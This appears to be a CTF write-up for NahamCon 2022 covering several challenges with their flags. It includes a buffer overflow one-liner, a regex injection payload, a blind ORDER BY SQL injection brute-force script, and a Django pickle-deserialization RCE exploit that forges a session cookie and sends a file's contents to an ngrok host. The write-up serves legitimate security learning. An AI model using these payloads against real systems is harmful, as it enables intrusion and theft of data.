

------------------------

> April 28th, 12:00 PM PST - April 30th, 12:00 PM PST 48-Hour Competition

https://ctf.nahamcon.com/

### Prisoner:

_Have you ever broken out of jail ? Maybe it is easier than you think !_

After starting the instance we are given ssh creds:

Password is _"userpass"_

```
ssh -p 32233 user@challenge.nahamcon.com
```

It turns out that the shell dropped us into a running python terminal. This can exit the python interpreter with the CTRL + D keys.
then,we run some basic python to attain command execution and get the flag



```
flag{c31e05a24493a202fad0d1a827103642}
```

### Flagcat:

_Do you know what the cat command does in the Linux command-line ?_

_Attachment: `flagcat`

`cat flagcat`

```
flag{ab3cbaf45def9056dbfad706d597fb53}
```

### Quirky:

_This file is seems to have some strange pattern..._

_Attachment: `Quirky`_

-----

given file is hex of image raw data we can use [CyberChef](https://gchq.github.io/CyberChef/) to get the image
it will give us QR code after parsing the QRcode it gives the flag

filters to use in CyberChef:
- From Hex
- Render Image
- Parse QR code

```
flag{b7e2a32f5ae629dcfb1ac210d1f0c032}
```

### Exit Vim:

_Ah yes, a bad joke as old as time... can you exit vim?_

Password is "userpass"

`ssh -p 32686 user@challenge.nahamcon.com`

we are inside vim just type:

`:qa!`

to exit vim

```
flag{ccf443b43322be5659150eac8bb2a18c}
```

### Crash Override:

_Remember, hacking is more than just a crime. It's a survival trait._


Connect with:

`nc challenge.nahamcon.com 30443`

Attachment: `Crash Override`

looking at c code we know the buffer size=2048 so after finding padding=8 we can give any input > 2056 and it will give flag
```
python -c "print('a'* 2056)" | nc challenge.nahamcon.com 32216
```

```
flag{de8b6655b538a0bf567b79a14f2669f6}  
```

### Read The Rules:

_Please follow the rules for this CTF!_


Connect here: [Read The Rules](https://ctf.nahamcon.com/rules)

flag is in source code

```html
<!-- Thank you for reading the rules! Your flag is: -->
<!-- flag{90bc54705794a62015369fd8e86e557b} -->
```

```flag{90bc54705794a62015369fd8e86e557b}```

### Wizard:

_You have stumbled upon a wizard on your path to the flag. You must answer his questions!_

Connect with:

`nc challenge.nahamcon.com 32201`

it gives us the questions and we have to give input the answers

First Question: What is the ASCII plaintext corresponding to this binary string?
```
010110100110010101110010011011110111001100100000001001100010000001001111011011100110010101110011
```
From Binary: "Zeros & Ones"

Second Question: What is the ASCII plaintext corresponding to this hex string?
```
4f6820776f77777721204261736520313020697320636f6f6c20616e6420616c6c2062757420486578787878
```
From Hex: "Oh wowww! Base 10 is cool and all but Hexxxx"

Third Question: What is the ASCII plaintext corresponding to this octal string?
(HINT: octal -> int -> hex -> chars)
```
535451006154133420162312701623127154533472040334725553046256234620151334201413347444030460563312201673122016730267164
```
- Octal to HexaDecimal
- From Hex

"We can represent numbers in any base we want"

Fourth Question: What is the ACII representation of this integer?
(HINT: int -> hex -> chars)
```
8889185069805239596091046045687553579520816794635237831028832039457
```
- Desimal to HexaDecimal
- From Hex

"This is one big 'ol integer!"

Fifth Question: What is the ASCII plaintext of this Base64 string?
```
QmFzZXMgb24gYmFzZXMgb24gYmFzZXMgb24gYmFzZXMgOik=
```
From Base64: "Bases on bases on bases on bases :)"

Last Question: What is the Big-Endian representation of this Little-Endian hex string?
```
293a2065636e657265666669642065687420776f6e6b206f7420646f6f672073277449
```
[LITTLE to BIG ENDIAN](https://www.save-editor.com/tools/wse_hex.html)
- From Hex
"It's good to know the difference :)"

```
flag{c2ed35aba037cd93381b298caa2720ee}
```

### Technical Support:

_Want to join the party of GIFs, memes and emoji spam? Or just want to ask a question for technical support regarding any challenges in the CTF? Join us in the Discord -- you might just find a flag in the #ctf-help channel!_

flag is in description of #ctf-chat channel

```
flag{081fef2f11f3eec6059e3da9117ad3f0}
```

### Personnel:

A challenge that was never discovered during the 2021 Constellations mission... now ungated :)

Attachment: `app.py`

looking at app.py it will remove first character from name parameter `name = name[1:]` and put it in regex

`results = re.findall(r"[A-Z][a-z]*?" + name + r"[a-z]*?\n", users, setting)`
in regex `.*` means everything and we can escape other conditions with use of or operator "|".

payload: `A|.*|`

```
flag{f0e659b45b507d8633065bbd2832c627}
```

### Flaskmetal Alchemist:

Edward has decided to get into web development, and he built this awesome application that lets you search for any metal you want. Alphonse has some reservations though, so he wants you to check it out and make sure it's legit.

Attachment: `fma.zip`

looking at app.py we can say that it maybe valnurable to orderby blind sqli

payload= 
```
(CASE WHEN (SELECT (SUBTR(flag, 1,1)) from flag) = 'f' THEN name ELSE atomic_number END)--
```
it will sort by name if true and number if false
here is python script to brute force flag:

```python
 import string
    from bs4 import BeautifulSoup
    import requests
    url = "http://challenge.nahamcon.com:31631/"
    data = {'search': '',
            'order': "(CASE WHEN (SELECT (SUBSTR(flag, 1, 1)) from flag ) = 'f' THEN name ELSE atomic_number END)--"}
    x = requests.post(url, data=data)
    # x1 = BeautifulSoup(x.text, features='lxml').td.contents[0]
    # print(x1)
    s = 'flag{' + string.ascii_lowercase + '_' + '}'
    # print(s, type(s))
    flag = ''
    for i in range(1, 100):
        h1 = len(flag)
        for k in s:
            if len(flag) > h1:
                continue
            data = {'search': '',
                    'order': f"(CASE WHEN (SELECT (SUBSTR(flag, {i}, 1)) from flag ) = '{k}' THEN name ELSE atomic_number END)--"}
            # print(f'checking {data.values()}')
            x = requests.post(url, data=data)
            if BeautifulSoup(x.text, features='lxml').td.contents[0] == '89':
                flag += k
        print(flag)
        if flag[-1] == '}':
            break
```

```
flag{order_by_blind}
```

### Poller:

_Have your say! Poller is the place where all the important infosec questions are asked._

there is a github link in cource code: https://github.com/congon4tor/poller 

from looking at commit we know this is vulnerable to django PickleSerializer RCE and we also 
found secret_key in previous commits there is also one fake key 

SECRET_KEY = `77m6p#v&(wk_s2+n5na-bqe!m)^zu)9typ#0c&@qd%8o6!`

we can get the revese shell here but i don't have vps so we go the easy way we know the file name is flag.txt
first i created local server with python : `python -m http.server 80`

and expose it to internet with ngrok : `ngrok http 80`

now we craft our payload in a way that it will read file content and make a request 
to our server with that file content in GET request here is final exploit in python :

```python
from django.conf import settings as _settings
from django.core.signing import loads, dumps
from django.contrib.sessions.serializers import PickleSerializer
from urllib.request import urlopen
import os
from sys import argv
import requests

class Rce():
    def __reduce__(self):
        import requests
        return (exec,("import requests;s = 'n=1&s=' + open('flag.txt').read();requests.get(f'https://669d-49-34-53-197.in.ngrok.io/hello?{s}');import time;time.sleep(13)",))
        # return exec(f'import time;time.sleep(99)')

SECRET_KEY = '77m6p#v&(wk_s2+n5na-bqe!m)^zu)9typ#0c&@qd%8o6!'
salt = 'django.contrib.sessions.backends.signed_cookies'
c_url = 'http://challenge.nahamcon.com:31050/'
cookie = '.eJxNjE0KwjAUhHXhUgRPoZuQ5DWa7MS9Zwj5ebFVaaBpl4IHyDKewytaUaGzGZjvYx6L52v2zb1s8lKboa_1kLDTjS95DiWvJ5s17ortCLb-YtpzJC62fddY8lHIjyZyih5vx7-7mhzUJtUlHwRF9JRKxZgNyqFHIYKUY1dMAefAg6IIaLiVogK2d0h3gJXlAQ04VgbyBgKeP5Q:1nlwXO:fHckutyzxCaT3Hb8w56AHnlhu2_4UmbA7rvjo4tKU7s'
_settings.configure()
content = loads(cookie, key=SECRET_KEY, serializer=PickleSerializer, salt=salt)
print(content)
content['testcookie'] = Rce()
cookie = dumps(content, key=SECRET_KEY, serializer=PickleSerializer, salt=salt, compress=True)
c_cookie = {'csrftoken': 'LUQMdTVnStctjS2xxyX8wGl9CfUHyPiROjEjjlsVFgd0a3MhpJg9XCEAIxTJupw4', 'sessionid': cookie}
print(c_cookie)
r = requests.get(c_url, cookies=c_cookie)
print(r.headers)
```

we can see our flag in python server we created :

```shell
127.0.0.1 - - [06/May/2022 09:24:27] "GET /hello?n=1&s=flag%7Ba6b902e045b669148b5e92f771a68d39%7D HTTP/1.1" 200 -
127.0.0.1 - - [06/May/2022 09:24:42] "GET /hello?n=1&s=flag%7Ba6b902e045b669148b5e92f771a68d39%7D HTTP/1.1" 200 -
```

```
flag{a6b902e045b669148b5e92f771a68d39}
```

Happy Hacking
